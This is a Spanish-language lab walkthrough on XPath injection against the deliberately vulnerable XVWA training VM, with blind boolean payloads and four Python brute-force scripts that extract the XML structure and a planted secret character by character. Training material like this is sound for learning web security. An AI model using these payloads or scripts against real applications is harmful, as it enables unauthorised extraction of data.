# Inyecciones XPath

### Más info:

- Links
    
    Hacktricks - (”[https://book.hacktricks.xyz/pentesting-web/xpath-injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)”)
    

## Introducción
Link de descarga de la máquina **XVWA 1**: [https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/](https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/)

Antes de explotar la vulnerabilidad, se hará un arreglo a la estructura xml que contiene los detalles de cada producto en la máquina víctima:

Al iniciar la máquina, hay que ir al directorio “xpath” y aquí habrá un archivo .xml el cual contiene la estructura con los productos y sus detalles.



Lo que se hará es modificar este archivo para añadir una etiqueta “<Secret>” y añadirle un texto cualquiera.



Una vez hecho esto, se de reiniciar el servicio apache2.



Y hecho esto, se puede continuar con el lab.

La página web se ve de la siguiente manera, este servidor contiene varias vulnerabilidades, en este caso se enfocará en el xPATH Injection:



El funcionamiento de esta página consiste en que se pueden buscar productos por medio de su ID, es decir, si por ejemplo se ingresa “1”, se ve el producto con el ID 1 y así sucesivamente:



Estos productos se basan en una estructura XML en la que se aplica un filtro para mostrar el producto específico:



Archivo coffee.xml: Estructura XML que contiene toda la información de los productos



home.php: Archivo que maneja las querys que se hacen al archivo coffee.xml.

En archivo se está aplicando una query la cual está obteniendo información de un elemento específico del archivo coffe.xml, está apuntando primeramente a una etiqueta raíz llamada “Coffees” y dentro de esta etiqueta raíz está llamando a un elemento hijo llamado “Coffee“ en la cual se está especificando un atributo ID y esta tomando como valor un “$input”, este input corresponde a lo que envía el usuario en el parámetro “search”.



## Explotación

Primeramente, teniendo un campo como el que se muestra en la página web en el que se puede indicar un ID para buscar productos, un atacante de primeras podría pensar en intentar inyecciones SQL, NoSQL, etc. por ejemplo, se intentan una querys básicas como las siguientes las cuales no devuelven ningún resultado:





Aunque se encuentran querys como la siguiente en la cual se muestran todos los productos, es decir, puede ser que de primeras parezca que es vulnerable a SQL injection pero el resultado de las querys no encajan.



Es aquí en donde entra el XPATH Injection. Después de hacer varios intentos con SQL Injection, NoSQL Injection y no obtener resultados claros, se puede pensar también en una inyección XPATH, en las cuales las querys no se hacen a una base de datos como tal, sino que se utiliza un filtro para recorrer una estructura XML.

Como se mostró anteriormente, una query se ve de la siguiente manera, en la que el input corresponde a lo que el usuario ingresa:

```bash
$query = "/Coffees/Coffee[@ID='".$input."']";
```

Al replicar la inyección mostrada anteriormente, esta se vería de la siguiente manera en la estructura de la query:

```bash
$query = "/Coffees/Coffee[@ID='1' or '1'='1']";
```

Esta query lo que está haciendo es una operación booleana en la que se comprueba si la cadena “1” es válida o si “1” es igual a “1” lo cual también debería ser válido y por esa razón da un resultado válido y muestra todos los cafés disponibles.

## Inyecciones XPATH

El objetivo como atacante es poder representar toda la estructura XML que hay por detrás, para esto se inyectarán querys XPATH para descubrir la cantidad de etiquetas, su nombre y su contenido, y todo esto se irá representando en un nuevo archivo XML.

```bash
# Estructura de la inyección:
count() # Hacer un conteo
name() # Especificar etiquetas con "/*"
string-length() # Ver longitud de caracteres
substring(test,1,1) # Especificar caracteres
/*/*/* # El primer "/*" corresponde al elemento raíz, el 
# segundo al elemento hijo y el último al elemento interno
/*[n] # Especificar un elemento en específico, n 
# corresponde al número del elemento
```

### Cantidad de elementos raíz

Primeramente se debe identificar cuántas etiquetas o elementos raíz hay:

```bash
1' and count(/*)='1

# Se hará una comparación de la suma cuantitativa 
# de todos los elementos raíz con un número
```

Como se puede ver, al ingresar un valor válido, la información del producto se muestra en pantalla, esto será un indicativo para saber si la query que se está ingresando correcta o no.





Con esto, se sabe que solo hay una etiqueta raíz por lo que ahora toca representarlo en el nuevo archivo XML:



### Longitud de una cadena

Ahora se quiere conocer la longitud del nombre de este elemento raíz.

```bash
# Tomar la longitud del primer elemento raíz y compararla
# con un valor
1' and string-length(name(/*[1]))>='7
```





### Nombre de Elemento Raíz

Ahora que se conoce la cantidad de elementos raíz y la longitud de su nombre, ahora toca descubrir el nombre de esta etiqueta

```bash
# Tomar la primer letra del nombre del primer elemento raíz
# y compararlo con un caracter
1' and substring(name(/*[1]),1,1)='C

# Tomar el nombre del primer elemento raíz y compararlo 
# con un nombre
1' and name(/*[1])='Coffees
```





Esto se puede automatizar con un script en Python:

- Code
    
    ```bash
    #!/bin/bash
    
    import sys, signal, requests, time, string
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	exit(1)
    
    #Ctrl+C
    signal.signal(signal.SIGINT, def_handler)
    
    #Variables globales
    main_url = "http://192.168.0.105/xvwa/vulnerabilities/xpath/"
    characters = string.ascii_letters
    
    def XPATH_RootTag():
    
    	p1 = log.progress("Iniciando proceso de fuerza bruta")
    	p2 = log.progress("Data")
    	
    	time.sleep(2)
    	
    	data = ""
    
    	for position in range(1, 8):
    		for character in characters:
    			post_data = {
    				'search': "1' and substring(name(/*[1]),%d,1)='%s" % (position, character),
    				'submit': ''
    			}
    
    			r = requests.post(main_url, data=post_data)
    			
    			#print(len(r.text))
    			
    			# Comparación de cantidad de caracteres en la respuesta
    			if len(r.text) != 8681:
    				data+=character
    				p2.status(data)
    				break
    
    if __name__ == '__main__':
    	XPATH_RootTag()
    ```
    



Ahora que se conoce el nombre del elemento raíz, se puede actualizar el nuevo archivo XML:



### Cantidad de Elementos Hijos

Ahora que se conoce el elemento raíz, toca descubrir los elementos hijos. primero se descubrirá cuántos hay:

```bash
# Hace un conteo de la cantidad real de elementos hijo y 
# lo compara con un valor
1' count(/*/*)>='10
```

Como se puede ver, hay 10 elementos hijos





### Nombre de Elementos Hijos

Ahora toca descubrir el nombre de los elementos hijos

```bash
# Primero se podría probar tomando los primeros caracteres 
# y compararlos con un caracter para ver si todos los 
# elementos tienen el mismo nombre:
# Tomar el primer caracter del nombre de todos los 
# elementos hijos y compararlo con un caracter
1' and substring(name(/*/*),1,1)='C

# Si no tienen el mismo nombre, se podría tomar elemento
# por elemento:
# Tomar el primer caracter del primer elemento hijo y 
# compararlo con un caracter
1' and substring(name(/*/*[1]),1,1)='C
```





Esto se puede automatizar con un script en Python:

- Code
    
    ```bash
    #!/bin/bash
    
    import sys, signal, requests, time, string
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	exit(1)
    
    #Ctrl+C
    signal.signal(signal.SIGINT, def_handler)
    
    #Variables globales
    main_url = "http://192.168.0.105/xvwa/vulnerabilities/xpath/"
    characters = string.ascii_letters
    
    def XPATH_RootTag():
    
    	p1 = log.progress("Iniciando proceso de fuerza bruta")
    	p2 = log.progress("Data")
    	
    	time.sleep(2)
    	
    	data = "\n"
    	
    	for child_element in range(1, 11):
    		data+="No.%d -> " % child_element
    		
    		for position in range(1, 8):
    			for character in characters:
    				post_data = {
    					'search': "1' and substring(name(/*/*[%d]),%d,1)='%s" % (child_element ,position, character),
    					'submit': ''
    				}
    
    				r = requests.post(main_url, data=post_data)
    				
    				#print(len(r.text))
    				
    				# Comparación de cantidad de caracteres en la respuesta
    				if len(r.text) != 8680 and len(r.text) != 8683 and len(r.text) != 8684:
    					#print(len(r.text))
    					data+=character
    					p2.status(data)
    					break
    					
    		data+="\n"	
    
    if __name__ == '__main__':
    	XPATH_RootTag()
    ```
    



Ahora se conoce la cantidad y el nombre los elementos hijos del elemento raíz por lo que hay que actualizar el nuevo archivo XML:



### Cantidad de Elementos internos de Elemento Hijo

Ahora que se conoce la cantidad de elementos hijos del elemento raíz, ahora se quiere conocer la cantidad de etiquetas que tiene cada elemento hijo junto con su contenido. En este caso solo se enfocará en la primer etiqueta del elemento hijo.

```bash
# Tomar el primer elemento hijo y contabilizar sus 
# etiquetas internas para compararlo con un valor
1' and count(/*/*[1]/*)>='5
```



### Nombre de Elementos internos de Elemento Hijo

Ahora para descubrir el nombre de los elementos internos se usa la siguiente inyección:

```bash
# Tomar el primer caracter del primer elemento interno del 
# primer elemento hijo y compararlo con un caracter
1' and substring(name(/*/*[1]/*[1]),1,1)='I
```



Esto se puede automatizar con un script en Python

- Code
    
    ```bash
    #!/bin/bash
    
    import sys, signal, requests, time, string
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	exit(1)
    
    #Ctrl+C
    signal.signal(signal.SIGINT, def_handler)
    
    #Variables globales
    main_url = "http://192.168.0.105/xvwa/vulnerabilities/xpath/"
    characters = string.ascii_letters
    
    def XPATH_RootTag():
    
    	p1 = log.progress("Iniciando proceso de fuerza bruta")
    	p2 = log.progress("Data")
    	
    	time.sleep(2)
    	
    	data = "\n"
    	
    	for tag in range(1, 6):
    		data+="TagNo.%d -> " % tag
    		
    		for position in range(1, 11):
    			for character in characters:
    				post_data = {
    					'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (tag, position, character),
    					'submit': ''
    				}
    
    				r = requests.post(main_url, data=post_data)
    				
    				#print(len(r.text))
    				
    				# Comparación de cantidad de caracteres en la respuesta
    				if len(r.text) != 8691 and len(r.text) != 8692:
    					#print(len(r.text))
    					data+=character
    					p2.status(data)
    					break
    					
    		data+="\n"	
    
    if __name__ == '__main__':
    	XPATH_RootTag()
    ```
    



El archivo XML ahora se ve de esta forma:



### Contenido de Elementos Internos

Ya ahora solo queda descubrir el contenido, se podría aprovechar de que ya se conocen los nombres internos para ahora mostrar su contenido de la siguiente manera:

```bash
# Tomar el primer caracter del contenido del elemento 
# "Secret" y compararlo con un caracter
1' and substring(Secret,1,1)='E

# Se podría también descubrir la cantidad de caracteres 
# que tiene la cadena con "string-length"
1' and string-length(Secret)>='25
```



Esto se puede automatizar con un script en Python

- Code
    
    ```bash
    #!/bin/bash
    
    import sys, signal, requests, time, string
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	exit(1)
    
    #Ctrl+C
    signal.signal(signal.SIGINT, def_handler)
    
    #Variables globales
    main_url = "http://192.168.0.105/xvwa/vulnerabilities/xpath/"
    characters = string.ascii_letters + ' '
    
    def XPATH_RootTag():
    
    	p1 = log.progress("Iniciando proceso de fuerza bruta")
    	p2 = log.progress("Data")
    	
    	time.sleep(2)
    	
    	data = ""
    	
    	for position in range(1, 51):
    		for character in characters:
    			post_data = {
    				'search': "1' and substring(Secret,%d,1)='%s" % (position, character),
    				'submit': ''
    			}
    
    			r = requests.post(main_url, data=post_data)
    			
    			#print(len(r.text))
    			
    			# Comparación de cantidad de caracteres en la respuesta
    			if len(r.text) != 8677 and len(r.text) != 8676:
    				#print(len(r.text))
    				data+=character
    				p2.status(data)
    				break
    
    if __name__ == '__main__':
    	XPATH_RootTag()
    ```
    


